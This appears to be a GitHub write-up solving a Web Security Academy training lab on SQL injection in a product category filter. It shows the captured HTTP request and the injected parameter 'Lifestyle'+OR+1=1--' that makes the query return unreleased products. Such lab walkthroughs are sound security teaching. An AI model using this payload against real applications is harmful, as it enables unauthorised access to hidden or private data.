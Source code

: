 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
## Task
This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Solution
Originally, the request is:
```
GET /filter?category=Lifestyle HTTP/1.1
Host: ac121f771f9ff00880be049000820026.web-security-academy.net
Cookie: session=bOEATUMEQ2ayDYjeCHVB7JWdGOysKyIi
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac121f771f9ff00880be049000820026.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

To display all products, we just need to modify the search sequence as follows:
```
/filter?category=Lifestyle'+OR+1=1--
```

![image](https://user-images.githubusercontent.com/44528004/130056083-5b6f8628-0a0e-4be8-8d78-657419f677eb.png)

> Done!
